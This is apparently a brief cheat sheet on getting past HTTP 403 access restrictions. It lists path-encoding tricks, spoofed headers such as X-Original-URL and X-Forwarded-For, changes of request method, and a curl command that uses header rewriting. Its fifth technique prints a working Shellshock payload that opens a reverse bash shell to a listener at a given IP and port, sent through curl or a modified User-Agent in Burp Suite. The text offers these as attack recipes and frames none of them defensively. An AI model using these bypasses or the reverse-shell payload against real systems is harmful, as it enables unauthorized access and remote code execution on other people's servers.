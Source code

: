 **How to bypass 403 Errors**

**Technique number 1**
- Appending `{%2e} or {%2f} { **/*, /./}` after the first slash
	- https://www.domain/DB = 403  
	- https://www.domain/%2e/DB] =200  
	- https://www.domain/./DB] =200 

**Technique number 2**
- Adding headers to requests module.
	- Content-Length: 0  
	- X-rewrite-url  
	- X-Original-URL  
	- X-Custom-IP-Authorization  
	- X-Forwarded-For

**Technique number 3**
- Change the request method
	- GET → POST
	- GET → TRACE
	- GET → PUT
	- GET **→** OPTIONS 

**Technique number 4**
- Using Curl
	- curl -i -s -k -X $’GET’ -H $’Host: account.domain.com’ -H $’X-rewrite-url: admin/login’ $’https://account.domain.com/' 

**Technique number 5**
- Brute force sub directory from the 403 directory
   - Try using (wordlist/dirb/comon.txt)
   - Setup Netcat lisener
   - Inject parameters from Curl or Burp Suite
   - CURL ---> curl -A “() { :; }; /bin/bash -i > /dev/tcp/192.168.2.13/9000 0<&1 2>&1” http://192.168.2.18/cgi-bin/helloworld.cgi
   - Burp Suite ---> Change User-Agent: () { :; }; /bin/bash -i > /dev/tcp/192.168.2.13/9000 0<&1 2>&1
   - More info ---> https://hackbotone.com/shellshock-attack-on-a-remote-web-server-d9124f4a0af3


**Technique number 6**
- Kali linux tool ---> 403 bypass